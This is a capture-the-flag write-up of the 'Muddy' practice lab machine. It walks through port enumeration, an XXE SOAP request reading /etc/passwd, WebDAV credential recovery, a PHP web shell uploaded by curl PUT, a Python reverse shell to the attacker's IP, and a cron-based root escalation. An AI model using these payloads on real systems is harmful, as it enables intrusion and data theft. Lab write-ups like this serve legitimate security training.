

# Muddy

Machine: [Muddy](https://portal.offensive-security.com/labs/practice)\
Difficulty: Intermediate


## Enumeration
What ports are open on this machine?
```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
25/tcp   open  smtp    Exim smtpd
80/tcp   open  http    Apache httpd 2.4.38 ((Debian))
111/tcp  open  rpcbind 2-4 (RPC #100000)
8888/tcp open  http    WSGIServer 0.1 (Python 2.7.16)
```

### SSH port 22
The ssh version does not appear to have any vulnerabilities that would be of use to me. However, if I find credentials then I may be able to use them to ssh into the machine.

### SMTP port 25
Initially, I just ran the smtp nmap scripts and received the below output. The nmap scripts did not appear to return any information that would hint that the smtp service is vulnerable.
```
nmap --script smtp-* 192.168.211.161    
Starting Nmap 7.92 ( https://nmap.org ) at 2022-12-09 16:30 EST
Nmap scan report for muddy.ugc (192.168.211.161)
Host is up (0.075s latency).
Not shown: 995 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
25/tcp   open  smtp
| smtp-commands: muddy Hello muddy.ugc [192.168.49.211], SIZE 52428800, 8BITMIME, PIPELINING, CHUNKING, PRDR, HELP
|_ Commands supported: AUTH HELO EHLO MAIL RCPT DATA BDAT NOOP QUIT RSET HELP
| smtp-enum-users: 
|_  Couldn't find any accounts
|_smtp-open-relay: SMTP RSET: failed to receive data: connection closed
| smtp-vuln-cve2010-4344: 
|   Exim version: 4.92
|   Exim heap overflow vulnerability (CVE-2010-4344):
|     Exim (CVE-2010-4344): NOT VULNERABLE
|   Exim privileges escalation vulnerability (CVE-2010-4345):
|     Exim (CVE-2010-4345): NOT VULNERABLE
|_  To confirm and exploit the vulnerabilities, run with --script-args='smtp-vuln-cve2010-4344.exploit'
80/tcp   open  http
111/tcp  open  rpcbind
8888/tcp open  sun-answerbook
```

### HTTP port 80

This version of apache does have a couple of reported vulnerabilities reported which are available here: https://www.cvedetails.com/vulnerability-list/vendor_id-45/product_id-66/version_id-613554/Apache-Http-Server-2.4.38.html.

Since this is a webserver, I will go ahead and perform additional enumeration to discover possible hidden directories or files that we can access.



I did not find anything on my first scan. I did learn that this is a WordPress application so I scanned it appropriately but I did not find any relevant information. Additionally, I ran a nikto vulnerability scan.

### RPC port 111
N/A

### HTTP port 8888


After exploring the page, I discovered that the service running on this port uses a python library in the application called Ladon. Ladon is a framework for exposing python methods to several internet service protocols. I could not find a specific version of Ladon, but after some research, I did find that the Ladon framework is vulnerable to XXE. I found this article online that explains the vulnerability in good detail. [Link to vulnerability article](https://www.exploit-db.com/exploits/43113).


## Exploitation

After doing research I was able to create an XML request based on the XML definition on the muddy service, and retrieve a list of users with '/etc/passwd'. Below is a picture of the XML definition I was able to view along with the command used.


```
└─$ $ curl -s -X $'POST' \              
-H $'Content-Type: text/xml;charset=UTF-8' \
-H $'SOAPAction: \"http://muddy.ugc:8888/muddy/soap11/checkout\"' \
--data-binary $'<?xml version="1.0"?>
<!DOCTYPE uid
[<!ENTITY passwd SYSTEM "file:///etc/passwd">
]>
<soapenv:Envelope xmlns:xsi=\"http://www.w3.org/2001/XMLSchema-instance\"
xmlns:xsd=\"http://www.w3.org/2001/XMLSchema\"
xmlns:soapenv=\"http://schemas.xmlsoap.org/soap/envelope/\"
xmlns:urn=\"urn:HelloService\"><soapenv:Header/>
<soapenv:Body>
<urn:checkout soapenv:encodingStyle=\"http://schemas.xmlsoap.org/soap/encoding/\">
<uid xsi:type=\"xsd:string\">&passwd;</uid>
</urn:checkout>
</soapenv:Body>
</soapenv:Envelope>' \
'http://muddy.ugc:8888/muddy/soap11' | xmllint --format -

```


I tried to change the command being used, /etc/passwd, to see if I can get other information to be returned but I was not able to retrieve anything. I did find that there is a user named, ian, so I will see what I can do with that. Since we do have a name then we might be able to brute force the user's password and ssh via that user. I let Hydra Run for a bit but I was not able to get any password hits for the user.


At this point I was stuck and I had to go online for a hint. I  found out that I missed something important during the web directory enumeration. There is a directory, /webdav, on 'muddy.ugc' but I guess I accidentally skipped over this. I did have to research what the /webdav is and I found out that it runs on a web server and it acts as a fileserver...it stores files. Now when I tried to access the /webdav directory, muddy.ugc/webdav, I am prompted to enter credentials. Basic credentials did not work but I found out that there is a file on /webdav that contains password information. We can view this file by exploiting the same vulnerability that allowed the list of users to be returned via the XXE vulnerability. 


Creds:
administrant sleepless  

To get the text value of the hash I used john the ripper.


Since /webdav acts as a fileserver, I can try to upload a file, in this case a shell. A PHP shell will do the trick but sometimes other file types might be needed for the shell to execute and work properly. 


The php shell that ended up working is below. I saved this in a .php and upload the shell to the /webdav directory using the below command. Now that I can pass values via the parameter, I can set up a listener and get a reverse shell.
```
<?php system($_REQUEST["cmd"]); ?>  
```

```
curl -XPUT -d @shell.php http://muddy.ugc/webdav/shell.php -u 'administrant:sleepless'
```


Parameter Value:
```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.49.211",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```


## Flags

### Local/User 


### Root

```
SHELL=/bin/sh
PATH=/dev/shm:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*  *    * * *   root    netstat -tlpn > /root/status && service apache2 status >> /root/status && service mysql stat
```


## Overview
In this machine, I attacked a Linux machine that was vulnerable to an XXE attack and the reason it was vulnerable is because of an outdated library that is being used. An XXE vulnerability is ___________________. So now that we know we can update the entity value to a file path and have it potentially display the contents, note not all files work, we then used this same knowledge to access the /webdav file that contains the password information to log in to /webdav. Webdav acts as a file server and then I uploaded a shell that allowed me to get a reverse shell. Lastly, to escalate privileges I used linpeas to perform enumeration and found a cron job running which allowed me to gain a root shell upon the execution of a file.